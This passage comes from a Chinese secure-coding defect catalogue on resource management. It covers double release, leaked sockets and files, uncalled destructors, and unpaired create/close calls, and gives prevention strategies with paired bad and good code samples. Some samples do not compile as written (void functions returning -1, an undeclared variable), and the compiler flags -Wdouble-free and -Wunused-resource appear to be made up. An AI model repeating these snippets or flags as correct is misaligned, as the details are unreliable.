  2.采用RAII（Resource Acquisition Is Initialization）技术，将资源的生命周期绑定到对象的生命周期，确保资源在对象销毁时自动释放。
  3.使用智能指针（如C++中的std::unique_ptr或std::shared_ptr）管理资源，避免手动释放。

**编码**
- 策略：在编码时确保资源的正确获取和释放。
  1.在释放资源后，立即将指针置为NULL，避免意外再次释放。
  2.使用try-finally块（在支持的语言中）确保资源在异常情况下也能被正确释放一次。
  3.避免在多个代码路径中释放同一资源，确保每个资源只被释放一次。

**开发者测试**
- 策略：编写测试用例，验证资源的正确获取和释放。
  1.测试资源在不同使用场景下的获取和释放，确保每个资源只被释放一次。

**代码Review**
- 策略：在代码审查时重点检查资源的获取和释放。
  1.检查每个资源是否都有对应的获取和释放操作，确保没有重复释放。
  2.确保在释放资源后，指针被置为NULL，避免意外再次释放。
  3.审查资源管理逻辑，确保其符合设计文档中的资源管理要求。

**编译构建**
- 策略：启用编译器的资源管理警告功能。
  1.在编译时启用资源管理相关的警告选项（如-Wdouble-free），检测潜在的重复释放问题

**代码检查**
- 策略：使用静态分析工具检测潜在的资源管理问题。
  1.设置代码检查规则，使用静态分析工具检测重复释放或非法访问，检查是否存在重复释放资源的情况。

**集成测试**
- 策略：在集成测试中验证资源管理的正确性。
  1.模拟各种资源使用场景，确保资源在不同情况下都能正确释放一次。
  2.测试资源在高负载或长时间运行下的稳定性，确保没有重复释放或资源耗尽的情况。
  3.使用自动化测试工具，持续监控资源的使用状态，确保资源管理正确。

**示例**
**案例1: 重复关闭文件指针**
**语言: **C

**描述**
如果同一个文件指针被多次关闭，可能会导致未定义行为。

**案例分析**
函数Proces在条件满足时关闭了文件指针fp，然后在函数结束前又再次关闭fp，这可能导致重复关闭的问题。

**反例**
```c
#include <stdio.h>
#include <stdlib.h>

void Proces(bool cond)
{
    FILE *fp = fopen("tmp", "w"); // 以写模式打开文件
    if (fp == NULL) {
        return -1;
    }
    ...
    if (cond) {
        // 第一次关闭文件指针
        fclose(fp);
    }

    // 不符合：第二次关闭文件指针
    fclose(fp);
}
```

**正例**
```c
#include <stdio.h>
#include <stdlib.h>

void Proces(bool cond)
{
    FILE *fp = fopen("tmp", "w"); // 以写模式打开文件
    if (fp == NULL) {
        return -1;
    }
    ...
    if (cond) {
        // 关闭第二次
        fclose(fp);
        fp = NULL; // 关闭后设为NULL，防止重复关闭
    }

    if (fp != NULL) { // 在关闭文件指针之前，检查其是否为NULL
        // 符合
        fclose(fp);
    }
}
```

**修复建议**
在关闭文件指针后，立即将指针设置为 NULL，避免误操作导致的双重关闭。

**案例2: 重复关闭文件流**
**语言: **CPP

**描述**
如果同一个文件流被多次关闭，可能会导致未定义行为。

**案例分析**
多次调用 close()，可能会导致未定义行为。因为 close() 会释放与文件相关的资源，第二次调用 close() 时，文件句柄可能已经无效，从而引发错误或异常。

**反例**
```cpp
void Proces(bool cond) {
    std::ofstream outfile;
    outfile.open("tmp.txt"); // 以写模式打开文件
    if (!outfile.is_open()) {
        return -1;
    }
    ...

    if (cond) {
        // 关闭文件流
        outfile.close();
    }

    // 不符合：第二次关闭文件流
    outfile.close();
}
```

**正例**
```cpp
#include <fstream>
#include <string>

int main()
{
    std::ofstream outfile;
    outfile.open("tmp.txt"); // 以写模式打开文件
    if (!outfile.is_open()) {
        return -1;
    }

    if (cond) {
        // 关闭文件流
        outfile.close();
    }

    // 符合：不需要再次调用 close()，析构函数会自动关闭
}
```

**修复建议**
1. 依赖析构函数自动关闭：
除非你需要提前释放资源，否则不需要显式调用 close()。std::ofstream 的析构函数会自动关闭文件。
2. 如果需要显式关闭文件，只需调用一次 close()，并在关闭后不再使用该对象。

#### CWD-1194-000 多次释放同一资源

#### CWD-1194-001 重复释放创建的mutex互斥锁资源

#### CWD-1194-002 重复关闭创建的文件句柄资源

**业界缺陷**

- [CWE-1341: Multiple Releases of Same Resource or Handle](https://cwe.mitre.org/data/definitions/1341.html)
---

# CWD-1196 未在有效生命周期后释放资源

**描述**
未在有效生命周期后释放资源的缺陷指的是在程序中分配了资源（如内存、文件句柄、网络连接等）但在使用完毕后没有正确释放这些资源。这种缺陷可能导致资源泄漏，进而引发内存不足、文件句柄耗尽或其他系统资源枯竭的问题，最终导致程序性能下降、崩溃或无法正常运行。通常通过代码检视，代码静态扫描工具等手段检查分配的资源是否被正确释放。

**语言: **C,CPP,JAVA,PYTHON

**严重等级**
一般

**cleancode特征**
安全,可靠,可维护

**缺陷防护全景**
**软件实现设计**
- 策略：在软件设计阶段，明确资源的生命周期和管理方式。
  1.确保资源的分配和释放逻辑在设计中被清晰定义。
  2.使用资源管理机制（如RAII模式）来自动管理资源的生命周期。
  3.在设计中引入资源池或资源管理类，确保资源的分配和释放成对出现。

**编码**
- 策略：在编码时严格遵守资源管理的最佳实践。
  1.确保每次动态分配资源（如 malloc、calloc、realloc）后都有对应的 free 操作。
  2.在所有可能的退出路径（如错误处理、异常返回）中释放资源。
  3.使用智能指针或资源管理工具（如 std::unique_ptr、std::shared_ptr）来自动管理资源。

**开发者测试**
- 策略：编写单元测试和集成测试，验证资源是否正确释放。
  1.使用内存检测工具（如 Valgrind、AddressSanitizer）来检测内存泄漏。
  2.编写测试用例，多次调用资源分配和释放的函数，观察内存使用情况。

**代码Review**
- 策略：在代码审查过程中，重点检查资源的分配和释放逻辑。
  1.确保分配的资源都有对应的关闭或释放的操作。
  2.检查异常处理路径（如错误返回、中断）中是否释放了资源。

**编译构建**
- 策略：在编译和构建过程中启用内存检查选项。
  1.使用编译器的内存检查功能（如 GCC 的 -fsanitize=address）

**代码检查**
- 策略：使用静态代码分析工具（如 Coverity、SonarQube）检测潜在的资源泄漏。
  1.设置代码检查规则，使用静态代码分析工具检测未释放的动态内存、未关闭的文件句柄等

**集成测试**
- 策略：在集成测试中模拟高负载场景，验证资源是否正确释放。
  1.长时间运行程序，观察内存和资源使用情况。

**示例**
**案例1: 套接字未释放**
**语言: **C

**描述**
如果创建了套接字（socket）但在使用完毕后未正确关闭，会导致资源泄漏。套接字是一种系统资源，未及时释放可能会导致系统资源耗尽，影响程序性能甚至导致程序崩溃。

**反例**
```c
void Process()
{
    // 创建套接字
    int server_fd = socket(AF_INET, SOCK_STREAM, 0);

    // 设置套接字选项 ...
    // 绑定套接字 ...
    // 监听连接 ...
    // 接收客户端请求 ...
    // 处理数据 ...

    return; // 不符合：未关闭套接字
}
```

**正例**
```c
void Process()
{
    // 创建套接字
    int server_fd = socket(AF_INET, SOCK_STREAM, 0);

    // 设置套接字选项 ...
    // 绑定套接字 ...
    // 监听连接 ...
    // 接收客户端请求 ...
    // 处理数据 ...

    close(server_fd); // 符合：关闭套接字
    return;
}
```

**修复建议**
1. 及时关闭套接字：在使用完套接字后，立即调用close()函数关闭套接字，释放资源。
2. 在所有可能的退出点关闭套接字：如果函数中有多个return语句，确保在每个可能的退出点都关闭套接字。

**案例2: 套接字未释放**
**语言: **CPP

**描述**
如果创建了套接字（socket）但在使用完毕后未正确关闭，会导致资源泄漏。套接字是一种系统资源，未及时释放可能会导致系统资源耗尽，影响程序性能甚至导致程序崩溃。

**反例**
```cpp
void Process()
{
    // 创建套接字
    int server_fd = socket(AF_INET, SOCK_STREAM, 0);

    // 设置套接字选项 ...
    // 绑定套接字 ...
    // 监听连接 ...
    // 接收客户端请求 ...
    // 处理数据 ...

    return; // 不符合：未关闭套接字
}
```

**正例**
```cpp
void Process()
{
    // 创建套接字
    int server_fd = socket(AF_INET, SOCK_STREAM, 0);

    // 设置套接字选项 ...
    // 绑定套接字 ...
    // 监听连接 ...
    // 接收客户端请求 ...
    // 处理数据 ...

    close(server_fd); // 符合：关闭套接字
    return;
}
```

**修复建议**
1. 及时关闭套接字：在使用完套接字后，立即调用close()函数关闭套接字，释放资源。
2. 在所有可能的退出点关闭套接字：如果函数中有多个return语句，确保在每个可能的退出点都关闭套接字。

**案例3: 套接字未释放**
**语言: **PYTHON

**描述**
如果创建了套接字（socket）但在使用完毕后未正确关闭，会导致资源泄漏。套接字是一种系统资源，未及时释放可能会导致系统资源耗尽，影响程序性能甚至导致程序崩溃。

**反例**
```python
import socket


def bad_case():
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)  # 不符合
        s.connect((HOST, PORT))  # 要连接的IP与端口
    except IOError as e:
        logger.error(e)
```

**正例**
```python
import socket


def good_case1():
    s = None
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)  # 定义socket类型，网络通信，TCP
        s.connect((HOST, PORT))  # 要连接的IP与端口
        ...
    except IOError as e:
        logger.error(e)

    if s:
        s.close()  # 符合，显示关闭socket

def good_case2():
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:  # 符合
        s.connect((HOST, PORT))  # 要连接的IP与端口

def good_case3():
    s = None
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)  # 定义socket类型，网络通信，TCP
        s.connect((HOST, PORT))  # 要连接的IP与端口
        ...
    except IOError as e:
        logger.error(e)
    finally:
        if s:
            s.close()  # 符合
```

**修复建议**
1. 在socket对象使用结束后, 显式的关闭它。关闭的位置建议和打开的代码位置同函数/方法、同一个类、或同一个模块文件，不推荐跨模块文件代码管理资源。
2. 推荐使用with/as语句结合上下文管理器对资源对象进行管理。
3. 异常场景建议在try/except/finally结构的finally代码块中关闭资源。

#### CWD-1196-000 未在有效生命周期后释放资源

#### CWD-1196-001 set_fs后未恢复环境

#### CWD-1196-002 使用new分配内存后，未正确使用释放函数，导致内存资源泄漏

#### CWD-1196-003 使用malloc分配内存后，未正确使用释放函数，导致内存资源泄漏

#### CWD-1196-004 使用socket函数创建套接字后，未使用close函数释放相关资源，导致系统资源泄漏

#### CWD-1196-005 销毁复合数据结构（如结构体/数组）时，未递归释放其内部成员指针指向的动态内存，导致内存泄露

#### CWD-1196-006 使用realpath分配内存后，未使用free函数释放已分配的字符串，导致内存泄漏

#### CWD-1196-007 使用fopen函数创建文件句柄后，未使用close函数释放相关资源，导致系统资源泄漏

#### CWD-1196-008 在宏定义中嵌入return流程控制语句，导致内存申请成功后未及时释放，引发内存泄露风险

#### CWD-1196-009 在宏定义中嵌入break流程控制语句，导致内存申请成功后未及时释放，引发内存泄露风险

#### CWD-1196-010 在宏定义中嵌入continue流程控制语句，导致内存未完全申请成功就退出，引发内存泄露风险

#### CWD-1196-011 在宏定义中嵌入goto流程控制语句，导致内存申请成功后未及时释放，引发内存泄露风险

#### CWD-1196-012 使用信号量创建接口创建信号量后，未使用销毁函数，导致信号量资源泄漏

#### CWD-1196-013 【Apache】Apache HDFS的文件输入输出流FSDataInputStream/FSDataOutputStream在没有使用try-with-resources的情况下，存在某个分支使用完忘记释放，导致内存泄露

#### CWD-1196-014 【Apache】Apache HDFS的文件输入输出流FSDataInputStream/FSDataOutputStream在没有使用try-with-resources的情况下，使用完的释放操作不在finally块中，导致内存泄露

#### CWD-1196-015 【Apache】Apache HDFS的文件输入输出流FSDataInputStream/FSDataOutputStream在没有使用try-with-resources的情况下，使用完后在函数返回前没有释放，导致内存泄露

#### CWD-1196-016 【Apache】Apache Mina SSHD组件的ClientSession在没有使用try-with-resources的情况下，存在某个分支使用完忘记释放，导致内存泄露

#### CWD-1196-017 【Apache】Apache Mina SSHD组件的ClientSession在没有使用try-with-resources的情况下，使用完的释放操作不在finally块中，导致内存泄露

#### CWD-1196-018 【Apache】Apache Mina SSHD组件的ClientSession在没有使用try-with-resources的情况下，使用完后在函数返回前没有释放，导致内存泄露

#### CWD-1196-019 【Apache】Apache Mina SSHD组件的SftpClient在没有使用try-with-resources的情况下，存在某个分支使用完忘记释放，导致内存泄露

#### CWD-1196-020 【Apache】Apache Mina SSHD组件的SftpClient在没有使用try-with-resources的情况下，使用完的释放操作不在finally块中，导致内存泄露

#### CWD-1196-021 【Apache】Apache Mina SSHD组件的SftpClient在没有使用try-with-resources的情况下，使用完后在函数返回前没有释放，导致内存泄露

#### CWD-1196-022 【Apache】Apache Mina SSHD组件的SshClient在没有使用try-with-resources的情况下，存在某个分支使用完忘记释放，导致内存泄露

#### CWD-1196-023 【Apache】Apache Mina SSHD组件的SshClient在没有使用try-with-resources的情况下，使用完的释放操作不在finally块中，导致内存泄露

#### CWD-1196-024 【Apache】Apache Mina SSHD组件的SshClient在没有使用try-with-resources的情况下，使用完后在函数返回前没有释放，导致内存泄露

#### CWD-1196-025 【Apache】Apache POI组件中操作Excel的相关Workbook对象（XSSFWorkbook、SXSSFWorkbook、HSSFWorkbook）在没有使用try-with-resources的情况下，存在某个分支使用完忘记释放，导致内存泄露

#### CWD-1196-026 【Apache】Apache POI组件中操作Excel的相关Workbook对象（XSSFWorkbook、SXSSFWorkbook、HSSFWorkbook）在没有使用try-with-resources的情况下，使用完的释放操作不在finally块中，导致内存泄露

#### CWD-1196-027 【Apache】Apache POI组件中操作Excel的相关Workbook对象（XSSFWorkbook、SXSSFWorkbook、HSSFWorkbook）在没有使用try-with-resources的情况下，使用完后在函数返回前没有释放，导致内存泄露

#### CWD-1196-028 【Apache】Apache中继承自HttpClient的网络连接资源在没有使用try-with-resources的情况下，存在某个分支使用完忘记释放，导致内存泄露

#### CWD-1196-029 【Apache】Apache中继承自HttpClient的网络连接资源在没有使用try-with-resources的情况下，使用完的释放操作不在finally块中，导致内存泄露

#### CWD-1196-030 【Apache】Apache中继承自HttpClient的网络连接资源在没有使用try-with-resources的情况下，使用完后在函数返回前没有释放，导致内存泄露

#### CWD-1196-031 【JDK】JDBC的Connection在没有使用try-with-resources的情况下，存在某个分支使用完忘记释放，导致内存泄露

#### CWD-1196-032 【JDK】JDBC的Connection在没有使用try-with-resources的情况下，使用完的释放操作不在finally块中，导致内存泄露

#### CWD-1196-033 【JDK】JDBC的Connection在没有使用try-with-resources的情况下，使用完后在函数返回前没有释放，导致内存泄露

#### CWD-1196-034 【JDK】JDBC的PreparedStatement在没有使用try-with-resources的情况下，存在某个分支使用完忘记释放，导致内存泄露

#### CWD-1196-035 【JDK】JDBC的PreparedStatement在没有使用try-with-resources的情况下，使用完的释放操作不在finally块中，导致内存泄露

#### CWD-1196-036 【JDK】JDBC的PreparedStatement在没有使用try-with-resources的情况下，使用完后在函数返回前没有释放，导致内存泄露

#### CWD-1196-037 【JDK】JDBC的ResultSet在没有使用try-with-resources的情况下，存在某个分支使用完忘记释放，导致内存泄露

#### CWD-1196-038 【JDK】JDBC的ResultSet在没有使用try-with-resources的情况下，使用完的释放操作不在finally块中，导致内存泄露

#### CWD-1196-039 【JDK】JDBC的ResultSet在没有使用try-with-resources的情况下，使用完后在函数返回前没有释放，导致内存泄露

#### CWD-1196-040 【JDK】JDBC的Statement在没有使用try-with-resources的情况下，存在某个分支使用完忘记释放，导致内存泄露

#### CWD-1196-041 【JDK】JDBC的Statement在没有使用try-with-resources的情况下，使用完的释放操作不在finally块中，导致内存泄露

#### CWD-1196-042 【JDK】JDBC的Statement在没有使用try-with-resources的情况下，使用完后在函数返回前没有释放，导致内存泄露

#### CWD-1196-043 【JDK】JDK的FileChannel在没有使用try-with-resources的情况下，存在某个分支使用完忘记释放，导致内存泄露

#### CWD-1196-044 【JDK】JDK的FileChannel在没有使用try-with-resources的情况下，使用完的释放操作不在finally块中，导致内存泄露

#### CWD-1196-045 【JDK】JDK的FileChannel在没有使用try-with-resources的情况下，使用完后在函数返回前没有释放，导致内存泄露

#### CWD-1196-046 【JDK】JDK的ServerSocket在没有使用try-with-resources的情况下，存在某个分支使用完忘记释放，导致内存泄露

#### CWD-1196-047 【JDK】JDK的ServerSocket在没有使用try-with-resources的情况下，使用完的释放操作不在finally块中，导致内存泄露

#### CWD-1196-048 【JDK】JDK的ServerSocket在没有使用try-with-resources的情况下，使用完后在函数返回前没有释放，导致内存泄露

#### CWD-1196-049 【JDK】JDK的Socket在没有使用try-with-resources的情况下，存在某个分支使用完忘记释放，导致内存泄露

#### CWD-1196-050 【JDK】JDK的Socket在没有使用try-with-resources的情况下，使用完的释放操作不在finally块中，导致内存泄露

#### CWD-1196-051 【JDK】JDK的Socket在没有使用try-with-resources的情况下，使用完后在函数返回前没有释放，导致内存泄露

#### CWD-1196-052 【JDK】JDK的SSLServerSocket在没有使用try-with-resources的情况下，存在某个分支使用完忘记释放，导致内存泄露

#### CWD-1196-053 【JDK】JDK的SSLServerSocket在没有使用try-with-resources的情况下，使用完的释放操作不在finally块中，导致内存泄露

#### CWD-1196-054 【JDK】JDK的SSLServerSocket在没有使用try-with-resources的情况下，使用完后在函数返回前没有释放，导致内存泄露

#### CWD-1196-055 【JDK】JDK的SSLSocket在没有使用try-with-resources的情况下，存在某个分支使用完忘记释放，导致内存泄露

#### CWD-1196-056 【JDK】JDK的SSLSocket在没有使用try-with-resources的情况下，使用完的释放操作不在finally块中，导致内存泄露

#### CWD-1196-057 【JDK】JDK的SSLSocket在没有使用try-with-resources的情况下，使用完后在函数返回前没有释放，导致内存泄露

#### CWD-1196-058 【JDK】JDK的ThreadLocal在没有使用try-with-resources的情况下，存在某个分支使用完忘记释放，导致内存泄露

#### CWD-1196-059 【JDK】JDK的ThreadLocal在没有使用try-with-resources的情况下，使用完的释放操作不在finally块中，导致内存泄露

#### CWD-1196-060 【JDK】JDK的ThreadLocal在没有使用try-with-resources的情况下，使用完后在函数返回前没有释放，导致内存泄露

#### CWD-1196-061 【JDK】JDK的线程池ThreadPoolExecutor在没有使用try-with-resources的情况下，存在某个分支使用完忘记释放，导致内存泄露

#### CWD-1196-062 【JDK】JDK的线程池ThreadPoolExecutor在没有使用try-with-resources的情况下，使用完的释放操作不在finally块中，导致内存泄露

#### CWD-1196-063 【JDK】JDK的线程池ThreadPoolExecutor在没有使用try-with-resources的情况下，使用完后在函数返回前没有释放，导致内存泄露

#### CWD-1196-064 【JDK】JDK管道流PipedInputStream/PipedOutputStream在没有使用try-with-resources的情况下，存在某个分支使用完忘记释放，导致内存泄露

#### CWD-1196-065 【JDK】JDK管道流PipedInputStream/PipedOutputStream在没有使用try-with-resources的情况下，使用完的释放操作不在finally块中，导致内存泄露

#### CWD-1196-066 【JDK】JDK管道流PipedInputStream/PipedOutputStream在没有使用try-with-resources的情况下，使用完后在函数返回前没有释放，导致内存泄露

#### CWD-1196-067 【JDK】JDK中Files的lines/list函数返回的Stream流通过链式调用使用造成Stream流未关闭，导致内存泄露

#### CWD-1196-068 【JDK】JDK中Files的lines/list函数返回的Stream流在没有使用try-with-resources的情况下，存在某个分支使用完忘记释放，导致内存泄露

#### CWD-1196-069 【JDK】JDK中Files的lines/list函数返回的Stream流在没有使用try-with-resources的情况下，使用完的释放操作不在finally块中，导致内存泄露

#### CWD-1196-070 【JDK】JDK中Files的lines/list函数返回的Stream流在没有使用try-with-resources的情况下，使用完后在函数返回前没有释放，导致内存泄露

#### CWD-1196-071 【JDK】JDK中继承自java.io.InputStream|java.io.OutputStream|java.io.Reader|java.io.Writer的文件I/O流在没有使用try-with-resources的情况下，存在某个分支使用完忘记释放，导致内存泄露

#### CWD-1196-072 【JDK】JDK中继承自java.io.InputStream|java.io.OutputStream|java.io.Reader|java.io.Writer的文件I/O流在没有使用try-with-resources的情况下，使用完的释放操作不在finally块中，导致内存泄露

#### CWD-1196-073 【JDK】JDK中继承自java.io.InputStream|java.io.OutputStream|java.io.Reader|java.io.Writer的文件I/O流在没有使用try-with-resources的情况下，使用完后在函数返回前没有释放，导致内存泄露

#### CWD-1196-074 【JDK】JDK中继承自URLConnection的网络连接资源在没有使用try-with-resources的情况下，存在某个分支使用完忘记释放，导致内存泄露

#### CWD-1196-075 【JDK】JDK中继承自URLConnection的网络连接资源在没有使用try-with-resources的情况下，使用完的释放操作不在finally块中，导致内存泄露

#### CWD-1196-076 【JDK】JDK中继承自URLConnection的网络连接资源在没有使用try-with-resources的情况下，使用完后在函数返回前没有释放，导致内存泄露

#### CWD-1196-077 【JSCH】JSCH组件的Channel在没有使用try-with-resources的情况下，存在某个分支使用完忘记释放，导致内存泄露

#### CWD-1196-078 【JSCH】JSCH组件的Channel在没有使用try-with-resources的情况下，使用完的释放操作不在finally块中，导致内存泄露

#### CWD-1196-079 【JSCH】JSCH组件的Channel在没有使用try-with-resources的情况下，使用完后在函数返回前没有释放，导致内存泄露

#### CWD-1196-080 【JSCH】JSCH组件的Session在没有使用try-with-resources的情况下，存在某个分支使用完忘记释放，导致内存泄露

#### CWD-1196-081 【JSCH】JSCH组件的Session在没有使用try-with-resources的情况下，使用完的释放操作不在finally块中，导致内存泄露

#### CWD-1196-082 【JSCH】JSCH组件的Session在没有使用try-with-resources的情况下，使用完后在函数返回前没有释放，导致内存泄露

#### CWD-1196-083 【Kafka】Kafka的KafkaConsumer在没有使用try-with-resources的情况下，存在某个分支使用完忘记释放，导致内存泄露

#### CWD-1196-084 【Kafka】Kafka的KafkaConsumer在没有使用try-with-resources的情况下，使用完的释放操作不在finally块中，导致内存泄露

#### CWD-1196-085 【Kafka】Kafka的KafkaConsumer在没有使用try-with-resources的情况下，使用完后在函数返回前没有释放，导致内存泄露

#### CWD-1196-086 【Redis】Redis的RedisConnection在没有使用try-with-resources的情况下，存在某个分支使用完忘记释放，导致内存泄露

#### CWD-1196-087 【Redis】Redis的RedisConnection在没有使用try-with-resources的情况下，使用完的释放操作不在finally块中，导致内存泄露

#### CWD-1196-088 【Redis】Redis的RedisConnection在没有使用try-with-resources的情况下，使用完后在函数返回前没有释放，导致内存泄露

#### CWD-1196-089 创建IO对象后，对象被覆盖，导致未使用close释放相关IO资源

#### CWD-1196-090 跨系统调用申请的内存和释放不匹配

#### CWD-1196-091 三方/系统库接口中内存申请与释放不匹配，cap_to_text函数返回的字符串指针未使用cap_free函数释放

#### CWD-1196-092 三方/系统库接口中内存申请与释放不匹配，X509C_LoadCertByAlias出参指向的内存未用X509C_FreeCert释放

#### CWD-1196-093 文件描述符-套接字描述符（Mesh_Socket）

#### CWD-1196-094 文件描述符-普通文件描述符（fopen）

#### CWD-1196-095 线程退出场景未释放锁资源

#### CWD-1196-096 dopra文件loop资源，在异常场景下未释放loop资源导致残留

#### CWD-1196-097 session流表资源泄漏

#### CWD-1196-098 调用第二次后，每一次都会产生内存泄露，应该把上一次的内存释放

#### CWD-1196-099 异步流程：非局部变量申请FD前先判空，若非空，先释放再申请。

#### CWD-1196-100 同一上下文：锁未正确释放

#### CWD-1196-101 异步流程：申请和释放通过消息交互。

#### CWD-1196-102 内核引用计数器

#### CWD-1196-103 重复释放

#### CWD-1196-104 基类析构函数未声明为虚函数，导致通过基类指针删除派生类对象时，只会调用基类的析构函数，派生类的析构函数不会被执行

#### CWD-1196-105 【countDown方法使用不当导致的线程资源耗尽问题】countDown方法未写在finally块中，导致中间代码可能发生异常返回时无法执行主线程

#### CWD-1196-106 【countDown方法使用不当导致的线程资源耗尽问题】函数返回前没有调用countDown方法

#### CWD-1196-107 【countDown方法使用不当导致的线程资源耗尽问题】函数存在某个分支线程退出前忘记调用countDown的情况

**业界缺陷**

- [CWE-775: Missing Release of File Descriptor or Handle after Effective Lifetime](https://cwe.mitre.org/data/definitions/775.html)
---

# CWD-1197 对象的析构函数未被正确调用

**描述**
析构函数未被正确调用是指在对象生命周期结束时，析构函数未能按预期执行。析构函数的作用是释放对象占用的资源，如内存、文件句柄等。如果析构函数未被正确调用，可能导致资源泄漏，影响程序性能，甚至引发系统崩溃。建议使用RAII（Resource Acquisition Is Initialization），通过智能指针或容器管理资源，避免手动管理。

**语言: **CPP

**严重等级**
一般

**cleancode特征**
安全,可靠,高效

**缺陷防护全景**
**软件实现设计**
- 策略：
  1.采用RAII（Resource Acquisition Is Initialization）原则： 在设计类时，确保资源的获取和释放与对象的生命周期绑定。例如，使用智能指针（如std::unique_ptr、std::shared_ptr）或容器来管理资源，确保析构函数自动调用。
  2.避免手动内存管理： 在设计类时，尽量减少动态内存分配和手动new/delete操作，改用标准库提供的资源管理工具。
  3.明确对象的生命周期： 在设计类和函数时，确保对象的创建和销毁逻辑清晰，避免对象被提前释放或悬空指针问题。

**编码**
- 策略：
  1.使用智能指针： 将动态分配的对象包装在智能指针中（如std::unique_ptr、std::shared_ptr），确保对象在作用域结束时自动调用析构函数。
  2.避免动态内存分配： 尽量减少使用new和delete，改用标准容器（如std::vector、std::string）或静态内存管理。
  3.确保析构函数正确实现： 在类中实现析构函数时，确保所有资源（如动态分配的内存、文件句柄等）都被正确释放。
  4.避免返回动态分配的对象： 如果必须返回动态分配的对象，使用智能指针或容器包装，避免悬空指针问题

**开发者测试**
- 策略：
  1.使用内存检测工具： 在测试过程中使用内存检测工具（如Valgrind、AddressSanitizer），检测内存泄漏或未释放的资源。
  2.手动测试析构函数： 在测试中显式调用析构函数，确保其行为符合预期。

**代码Review**
- 策略：
  1.检查动态内存分配： 在代码Review过程中，检查所有new操作是否都有对应的delete，确保资源被正确释放。
  2.检查析构函数实现： 确保析构函数中所有资源（如动态内存、文件句柄等）都被正确释放。
  3.检查智能指针使用： 确保智能指针被正确使用，避免悬空指针或重复释放问题。
  4.检查对象生命周期： 确保对象的创建和销毁逻辑清晰，避免对象被提前释放或未被释放。

**编译构建**
- 策略：
  1.启用编译器警告： 在编译时启用与内存管理和资源释放相关的警告（如-Wunreachable-code、-Wshadow），帮助发现潜在问题

**代码检查**
- 策略：
  1.设置代码检查规则检测悬空指针： 使用静态分析工具检测悬空指针问题，避免因析构函数未被调用导致的悬空指针访问。
  2.设置代码检查规则检测内存泄漏： 使用静态分析工具检测内存泄漏，确保所有动态分配的资源都被正确释放。

**集成测试**
- 策略：
  1.大规模内存测试： 在集成测试中，运行程序并监控内存使用情况，确保没有内存泄漏。
  2.资源使用监控： 在集成测试中，监控文件句柄、数据库连接等资源的使用情况，确保资源被正确释放。
  3.性能测试： 通过长时间运行程序，观察资源泄漏或性能下降问题，确保析构函数被正确调用。

**示例**
**案例1: delete void*指针导致类对象的析构函数未调用**
**语言: **CPP

**描述**
当使用void指针进行删除时，编译器不知道这个指针指向的具体类型，所以无法调用对应的析构函数。这会导致对象的内存被释放，但析构函数中的清理工作没有执行，比如释放内部资源。

**反例**
```c++
class A {
public:
    A()
    {
        std::cout << "A constructed\n";
        data = new char[100];
    }
    ~A()
    {
        delete[] data;
        std::cout << "A destructed\n";
    }

private:
    char* data = nullptr;
};

int main()
{
    A *pA = new A();
    void *pVoid = pA;
    delete pVoid;  // 不符合：析构函数未被调用
    return 0;
}
```

**正例**
```c++
class A {
public:
    A()
    {
        std::cout << "A constructed\n";
        data = new char[100];
    }
    ~A()
    {
        delete[] data;
        std::cout << "A destructed\n";
    }

private:
    char* data = nullptr;
};

int main()
{
    A *pA = new A();
    ...
    delete pA;  // 符合：析构函数被调用

    auto r = std::make_unique<A>(A()); // 符合：使用智能指针，会自动调用析构函数
    ...
    return 0;
}
```

**修复建议**
1. 避免使用void指针进行删除操作：直接使用具体类型的指针进行删除，确保析构函数被正确调用。
2. 使用智能指针：采用std::unique_ptr或std::shared_ptr来管理动态对象，这些智能指针会自动调用析构函数，确保资源正确释放。

#### CWD-1197-000 对象的析构函数未被正确调用

**业界缺陷**

- [CWE-1091: Use of Object without Invoking Destructor Method](https://cwe.mitre.org/data/definitions/1091.html)
---

# CWD-1198 资源创建和关闭未配对

**描述**
资源创建和关闭未配对是指在程序中创建了资源（如文件、网络连接、数据库连接等），但未正确关闭这些资源。资源创建和关闭必须配对使用，否则会导致资源泄漏、数据不一致、性能下降，甚至引入安全问题。建议使用RAII（Resource Acquisition Is Initialization）原则，通过类的构造函数创建资源，在析构函数中释放资源；或通过代码检查工具检查代码资源创建和关闭是否配对。

**语言: **C,CPP,JAVA

**严重等级**
一般

**cleancode特征**
安全,可靠,高效

**缺陷防护全景**
**软件实现设计**
- 策略：
  1.采用RAII（Resource Acquisition Is Initialization）原则： 在设计类或结构体时，确保资源的获取和释放与对象的生命周期绑定。例如，在C++中使用智能指针（如std::unique_ptr、std::shared_ptr）或自定义RAII类，确保资源在对象销毁时自动释放。
  2.封装资源管理： 将资源的创建和关闭封装到类或函数中，避免直接使用裸指针或资源句柄。例如，创建一个文件管理类，封装fopen和fclose操作。
  3.设计异常安全的资源管理： 确保在资源管理过程中，即使发生异常，资源也能被正确释放。例如，在C++中使用try-catch块，确保fclose在异常情况下仍能执行。

**编码**
- 策略：
  1.确保每创建一次资源，就关闭一次： 在代码中，每打开一个资源（如文件、数据库连接等），都必须在函数结束前或异常处理中关闭。
  2.使用try-finally块（在支持的语言中）： 在C++中，可以使用try-catch-finally结构，确保资源关闭操作总是被执行。
  3.避免悬空指针或句柄： 确保在资源关闭后，不再使用相关的指针或句柄，避免悬空指针问题。
  4.使用智能指针或资源管理工具： 在C++中，使用std::unique_ptr或std::shared_ptr管理动态内存，确保自动释放资源。

**开发者测试**
- 策略：
  1.编写单元测试： 在测试中，验证资源是否被正确关闭。例如，可以检查文件是否被关闭，或者内存是否被释放。
  2.使用内存检测工具： 在测试过程中，使用工具如Valgrind或AddressSanitizer，检测内存泄漏或未释放的资源。
  3.手动测试资源关闭： 在测试中，显式调用资源关闭函数，确保其行为符合预期。
  4.测试异常情况： 在测试中，模拟异常情况（如内存不足、文件写入失败），确保资源在异常情况下仍能被正确关闭。

**代码Review**
- 策略：
  1.检查资源创建和关闭配对： 在代码审查过程中，检查所有资源创建操作（如fopen、malloc）是否都有对应的关闭操作（如fclose、free）。
  2.检查异常处理： 确保在异常情况下，资源关闭操作仍然被执行。例如，检查try-catch块中是否包含fclose。
  3.检查资源管理工具的使用： 确保智能指针或资源管理类被正确使用，避免资源泄漏。
  4.检查资源句柄的有效性： 确保在资源关闭后，不再使用相关的句柄或指针。

**编译构建**
- 策略：
  1.启用编译器警告： 在编译时启用与资源管理相关的警告（如-Wunused-resource、-Wunreachable-code），帮助发现潜在的资源泄漏问题

**代码检查**
- 策略：
